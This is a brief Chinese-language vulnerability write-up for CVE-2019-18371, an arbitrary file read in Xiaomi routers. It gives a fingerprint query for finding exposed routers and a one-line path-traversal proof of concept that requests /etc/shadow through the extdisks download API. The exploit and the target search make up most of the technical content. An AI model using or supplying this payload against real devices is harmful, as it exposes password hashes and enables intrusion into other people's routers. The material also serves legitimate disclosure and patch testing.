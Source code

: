 # 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

```
小米 路由器
```

## 网络测绘

```
app="小米路由器"
```

## 漏洞复现

登录页面

![image-20220715110456566](images/202207151106569.png)

验证POC

```
/api-third-party/download/extdisks../etc/shadow
```

![](images/202207151106800.png)